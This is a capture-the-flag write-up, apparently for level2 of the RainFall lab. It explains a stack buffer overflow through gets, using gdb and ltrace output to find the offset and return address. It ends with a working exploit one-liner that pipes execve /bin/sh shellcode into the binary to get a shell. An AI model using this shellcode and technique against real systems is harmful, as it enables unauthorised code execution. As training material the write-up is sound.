 First we start by open the file in [dogbolt](https://dogbolt.org/). We can see that it use the `gets` function which is vulnerable to overflow attacks.

Here we see that we have to get a shellcode to launch a shell. We can use [shell-storm](https://shell-storm.org/shellcode/index.html) :

We use a pattern like the previous level:
`aaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz`

```
(gdb) r
Starting program: /home/user/level2/level2
aaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz
aaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppuuuurrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz

Program received signal SIGSEGV, Segmentation fault.
0x75757575 in ?? ()
```

So here we see that we overflow on the 4 bytes `0x75757575` which translate to `uuuu`.
We know that we start overflow after 80 character

Now to find the returned address we will use `ltrace` on the file:

``` Shell
level2@RainFall:~$ ltrace ./level2
__libc_start_main(0x804853f, 1, 0xbffff7f4, 0x8048550, 0x80485c0 <unfinished ...>
fflush(0xb7fd1a20)                                                                                                                                 = 0
gets(0xbffff6fc, 0, 0, 0xb7e5ec73, 0x80482b5
)                                                                                                      = 0xbffff6fc
puts(""
)                                                                                                                                           = 1
strdup("")                                                                                                                                         = 0x0804a008
+++ exited (status 8) +++
```

Here we can see that the `strdup` use the address `0x0804a008` (address from the buffer)
When transform in little endian and hex: `\x08\xa0\x04\x08`

80-size(shellcode) : 80 - 21= 59

So now we know that our exploit will be compose by :
[21 char of shellcode][a 59 char nop sled][4 bytes address]

```Shell
python -c 'print "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "\x90" * 59 + "\x08\xa0\x04\x08"' > /tmp/exploit
cat /tmp/exploit - | ./level2
```
